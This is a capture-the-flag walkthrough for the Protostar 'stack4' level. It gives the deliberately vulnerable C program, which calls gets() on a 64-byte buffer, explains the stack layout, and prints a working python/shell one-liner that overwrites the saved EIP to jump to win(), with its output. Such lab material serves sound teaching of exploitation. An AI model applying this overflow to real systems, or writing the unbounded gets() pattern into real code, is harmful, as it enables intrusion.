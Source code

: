 # Protostar - Stack 4

### About ###

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
>
>This level is at `/opt/protostar/bin/stack4`
>
>**Hints**
>
> - A variety of introductory papers into buffer overflows may help.
> - gdb lets you do “run < input”
> - EIP is not directly after the end of buffer, compiler padding can also increase the size.


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### Solution 

This is the first challenge where we need to actually rewrite the saved `eip` in order to gain control of the execution flow. 

When a function is called, the address of the instruction following the call is placed on the stack, this is the return address or saved `eip`.

```
 8048431:      	e8 2a ff ff ff         	call   8048360 <puts@plt>
 8048436:      	c9                     	leave
```

For instance, when the function `puts` is called in the snippet above, its return address will be `0x08048436`: the address of `leave`.


Back to our challenge. Initially, the stack frame of `main` will look like this:

`main` Stack Frame variables | `main` Stack Frame values
---:|:---
buffer[0:3] | `0x00000000`
buffer[4:7] | `0x00000000`
... | `0x00000000`
buffer[60:63] | `0x00000000`
padding[?] | `0x00000000`
Saved ebp | `0xbffff808`
Saved eip | `0xb7eadc76`

If we disassemble the function `main`, we can see the instruction `and    $0xfffffff0,%esp`. This instruction aligns the top of the stack to an address that is a multiple of sixteen.

```
08048408 <main>:
 8048408:      	55                     	push   %ebp
 8048409:      	89 e5                  	mov    %esp,%ebp
 804840b:      	83 e4 f0               	and    $0xfffffff0,%esp
 804840e:      	83 ec 50               	sub    $0x50,%esp
 8048411:      	8d 44 24 10            	lea    0x10(%esp),%eax
 8048415:      	89 04 24               	mov    %eax,(%esp)
 8048418:      	e8 ef fe ff ff         	call   804830c <gets@plt>
 804841d:      	c9                     	leave
 804841e:      	c3                     	ret
 804841f:      	90                     	nop
```

This means that there might be some padding between buffer and the saved `ebp`. We will have to keep that in mind during the exploitation.

In order to exploit this binary, we have to change the saved eip to the address of `win`.

```
080483f4 <win>:
 80483f4:      	55                     	push   %ebp
 80483f5:      	89 e5                  	mov    %esp,%ebp
 80483f7:      	83 ec 18               	sub    $0x18,%esp
 80483fa:      	c7 04 24 e0 84 04 08   	movl   $0x80484e0,(%esp)
 8048401:      	e8 26 ff ff ff         	call   804832c <puts@plt>
 8048406:      	c9                     	leave
 8048407:      	c3                     	ret
```

The method is the same than in the previous exercises. In order to overwrite the saved `eip` we will need to overwrite the values of `buffer`, the padding and the saved `ebp`. If `x` is the size of the padding between `buffer` and the saved `ebp`, the total of bytes to overwrite is `64 (buffer) + x (padding) + 4 (saved ebp)`, which is at least 68 bytes.

Since we have `0 <= x < 16`, we can simply try every possibility until we can execute `win`.

```
user@protostar:/tmp$ for i in $(seq 0 4 15); do echo "[+] Padding size = "$i; python -c "print 'A'*$((68+i))+'\xf4\x83\x04\x08'" | stack4; echo; done;
[+] Padding size = 0

[+] Padding size = 4
Segmentation fault

[+] Padding size = 8
code flow successfully changed
Segmentation fault

[+] Padding size = 12
Segmentation fault

```
